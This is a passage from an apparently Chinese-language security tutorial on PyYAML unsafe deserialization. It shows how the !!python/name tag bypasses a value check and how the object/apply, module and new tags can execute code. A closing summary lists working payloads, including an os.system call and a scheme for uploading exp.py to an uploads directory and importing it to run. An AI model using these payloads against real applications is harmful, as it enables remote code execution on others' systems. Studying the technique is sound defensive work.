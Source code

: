 我们回顾一下，我们上面讲的construct\_python\_object\_apply方法，也是会进入这个方法进行操作，那是不是我们的用法也有相似之处呢？

```py
import yaml

key= "114514"

b= yaml.load('!!python/name:__main__.key' )

if b == key:
    print("ikun")
else:
    print("you are not ikun")
&gt;&gt;&gt;
ikun
```

我们可以通过这个例子直观的看出功能（`!!python/name:module.name    module.name`）。在这里面key定义在当前作用域内，我们无需知道key的内容就可以绕过检测，同样的如果key不在当前作用域中可是可以通过这个方法来绕过给检测。

我们可以发现python/name和python/module的源码中都没有可以实现直接执行命令，都是起到了一个import的作用，不过我们应该注意的是这两者的用法还是有些不同的，如下

```php
!!python/name:module.name   module.name
!!python/module:package.module  package.module
```

#### 利用方法总结

python/object/apply：

```php
yaml.load('!!python/object/apply:os.system ["whoami"]')

yaml.load("""
!!python/object/apply:os.system
- whoami
""")
```

python/name&amp;python/module&amp;python/object

上传exp.py到upload（具体情况具体决定）

```php
├── main.py
└── uploads
    └── exp.py
```

```php
yaml.load("!!python/module:upload.exp" )
yaml.load("!!python/object:upload.exp.ikun" )
yaml.load("!!python/name:upload.ikun" )
#ikun这是为了符合命名规则，防止报错，无实际意义，下面的同样{}也是。
```

```php
yaml.load('!!python/object/apply:upload.exp {}' )
yaml.load('!!python/object/new:upload.exp {}' )
```
